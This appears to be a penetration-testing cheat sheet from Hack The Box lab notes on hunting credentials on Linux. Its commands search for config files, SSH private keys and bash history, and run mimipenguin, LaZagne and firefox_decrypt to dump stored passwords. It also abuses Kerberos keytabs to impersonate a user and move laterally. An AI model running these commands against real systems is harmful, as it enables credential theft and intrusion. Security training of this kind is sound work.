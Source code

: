 # Credentials Hunting

| Command                                                                                                                                                                                               | Description                                                                                                               |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \\| grep -v "lib\\|fonts\\|share\\|core" ;done`                                               | Script that can be used to find .conf, .config and .cnf files on a Linux system.                                          |
| `for i in $(find / -name *.cnf 2>/dev/null \\| grep -v "doc\\|lib");do echo -e "\nFile: " $i; grep "user\\|password\\|pass" $i 2>/dev/null \\| grep -v "\#";done`                                     | Script that can be used to find credentials in specified file types.                                                      |
| `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \\| grep -v "doc\\|lib\\|headers\\|share\\|man";done`                                      | Script that can be used to find common database files.                                                                    |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"`                                                                                                                                                 | Uses Linux-based find command to search for text files.                                                                   |
| `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \\| grep -v "doc\\|lib\\|headers\\|share";done`                                     | Script that can be used to search for common file types used with scripts.                                                |
| `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \\| grep -v "lib\\|fonts\\|share\\|core" ;done` | Script used to look for common types of documents.                                                                        |
| `cat /etc/crontab`                                                                                                                                                                                    | Uses Linux-based cat command to view the contents of crontab in search for credentials.                                   |
| `ls -la /etc/cron.*/`                                                                                                                                                                                 | Uses Linux-based ls -la command to list all files that start with `cron` contained in the etc directory.                  |
| `grep -rnw "PRIVATE KEY" /* 2>/dev/null \\| grep ":1"`                                                                                                                                                | Uses Linux-based command grep to search the file system for key terms `PRIVATE KEY` to discover SSH keys.                 |
| `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null \\| grep ":1"`                                                                                                                                           | Uses Linux-based grep command to search for the keywords `PRIVATE KEY` within files contained in a user’s home directory. |
| `grep -rnw "ssh-rsa" /home/* 2>/dev/null \\| grep ":1"`                                                                                                                                               | Uses Linux-based grep command to search for keywords `ssh-rsa` within files contained in a user’s home directory.         |
| `tail -n5 /home/*/.bash*`                                                                                                                                                                             | Uses Linux-based tail command to search the through bash history files and output the last 5 lines.                       |
| `python3 mimipenguin.py`                                                                                                                                                                              | Runs Mimipenguin.py using python3.                                                                                        |
| `bash mimipenguin.sh`                                                                                                                                                                                 | Runs Mimipenguin.sh using bash.                                                                                           |
| `python2.7 lazagne.py all`                                                                                                                                                                            | Runs Lazagne.py with all modules using python2.7                                                                          |
| `ls -l .mozilla/firefox/ \\| grep default`                                                                                                                                                            | Uses Linux-based command to search for credentials stored by Firefox then searches for the keyword `default` using grep.  |
| `cat .mozilla/firefox/1bplpd86.default-release/logins.json \\| jq .`                                                                                                                                  | Uses Linux-based command cat to search for credentials stored by Firefox in JSON.                                         |
| `python3.9 firefox_decrypt.py`                                                                                                                                                                        | Runs Firefox\_decrypt.py to decrypt any encrypted credentials stored by Firefox. Program will run using python3.9.        |
| `python3 lazagne.py browsers`                                                                                                                                                                         | Runs Lazagne.py browsers module using Python 3.                                                                           |
| `realm list`                                                                                                                                                                                          | **realm - Check If Linux Machine is Domain Joined**                                                                       |
| `ps -ef \| grep -i "winbind\\|sssd"`                                                                                                                                                                  | **PS - Check if Linux Machine is Domain Joined**                                                                          |
| `find / -name *keytab* -ls`` `**`2`**`>/dev/null`                                                                                                                                                     | **Using Find to Search for Files with Keytab in the Name**                                                                |
| `crontab -l`                                                                                                                                                                                          | **Identifying Keytab Files in Cronjobs**                                                                                  |
| `env \| grep -i krb5`                                                                                                                                                                                 | **Reviewing Environment Variables for ccache Files.**                                                                     |
| `ls -la /tmp`                                                                                                                                                                                         | **Searching for ccache Files in /tmp**                                                                                    |
| `klist -k -t`                                                                                                                                                                                         | **Listing keytab File Information**                                                                                       |
| `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab`                                                                                                                                | **Impersonating a User with a keytab**                                                                                    |
| `smbclient //dc01/carlos -k -c ls`                                                                                                                                                                    | **Connecting to SMB Share as Carlos**                                                                                     |
| `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab`                                                                                                                                       | **Extracting Keytab Hashes with KeyTabExtract**                                                                           |
| `su - carlos@toto.com`                                                                                                                                                                                | **Log in as Carlos**                                                                                                      |
| `export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133`                                                                                                                                         |                                                                                                                           |
| `proxychains impacket-wmiexec ms01 -k`                                                                                                                                                                |                                                                                                                           |
| `impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi`                                                                                                                                        | **Impacket Ticket Converter**                                                                                             |
|                                                                                                                                                                                                       |                                                                                                                           |

## Hash Algorithm



| **ID**   | **Cryptographic Hash Algorithm**                                      |
| -------- | --------------------------------------------------------------------- |
| `$1$`    | [MD5](https://en.wikipedia.org/wiki/MD5)                              |
| `$2a$`   | [Blowfish](https://en.wikipedia.org/wiki/Blowfish\_\(cipher\))        |
| `$5$`    | [SHA-256](https://en.wikipedia.org/wiki/SHA-2)                        |
| `$6$`    | [SHA-512](https://en.wikipedia.org/wiki/SHA-2)                        |
| `$sha1$` | [SHA1crypt](https://en.wikipedia.org/wiki/SHA-1)                      |
| `$y$`    | [Yescrypt](https://github.com/openwall/yescrypt)                      |
| `$gy$`   | [Gost-yescrypt](https://www.openwall.com/lists/yescrypt/2019/06/30/1) |
| `$7$`    | [Scrypt](https://en.wikipedia.org/wiki/Scrypt)                        |

## Logs



| Log                   | Description                                        |
| --------------------- | -------------------------------------------------- |
| `/var/log/messages`   | Generic system activity logs.                      |
| `/var/log/syslog`     | Generic system activity logs.                      |
| `/var/log/auth.log`   | (Debian) All authentication related logs.          |
| `/var/log/secure`     | (RedHat/CentOS) All authentication related logs.   |
| `/var/log/boot.log`   | Booting information.                               |
| `/var/log/dmesg`      | Hardware and drivers related information and logs. |
| `/var/log/kern.log`   | Kernel related warnings, errors and logs.          |
| `/var/log/faillog`    | Failed login attempts.                             |
| `/var/log/cron`       | Information related to cron jobs.                  |
| `/var/log/mail.log`   | All mail server related logs.                      |
| `/var/log/httpd`      | All Apache related logs.                           |
| `/var/log/mysqld.log` | All MySQL server related logs.                     |
